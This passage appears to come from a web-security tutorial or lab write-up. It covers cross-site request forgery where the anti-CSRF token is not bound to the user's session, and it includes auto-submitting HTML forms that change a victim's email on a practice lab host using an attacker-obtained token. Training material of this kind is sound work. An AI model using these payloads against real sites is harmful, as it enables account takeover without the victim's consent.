 ```html

        window.onload = function() {

            document.forms[0].submit();

            //there is only 1 from in this page so index 0 

        }

        </script>

    </body>

</html>

```

##### 3)CSRF token is not tied to the user session 



 Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.



In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.



Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.



```html

<body>

    <form action="https://0a67003c03f6b4f382f33d830070000f.web-security-academy.net/my-account/change-email" method="POST">

        <input type="hidden" name="email" value="csrf@csrf.com">

        <input type="hidden" name="csrf" value="izJtO1DbXwOZpLplPCaC2cESgcnFlp4e">



    </form>

    <script>

    window.onload = function() {

        document.forms[0].submit();

        //there is only 1 from in this page so index 0 

    }

    </script>

</body>

</html>

```